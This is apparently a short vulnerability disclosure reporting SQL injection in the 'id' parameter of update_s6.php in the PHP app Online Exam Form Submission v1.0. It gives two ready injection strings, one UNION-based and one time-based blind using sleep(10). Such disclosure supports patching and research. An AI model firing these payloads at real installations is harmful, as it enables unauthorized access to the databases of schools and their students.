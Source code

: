 # Online Exam Form Submission v1.0 has SQL injection

BUG_Author：HaoL

Website source address: https://www.sourcecodester.com/php/14485/online-exam-form-submission-phpmysql-full-source-code-2020.html

Vulnerability File: /examformsubmission/admin/update_s6.php

GET parameter 'id' exists SQL injection vulnerability

Payload1: id=1' union all select null,concat(0x717273,0x66676869),null,null-- -

UNION query.

![image](https://github.com/Aiiimer/requestCVE/blob/main/1.png)

Payload2: id=1' and (select 1 from (select(sleep(10)))z) and 'k'='k

time-based blind

![image](https://github.com/Aiiimer/requestCVE/blob/main/2.png)
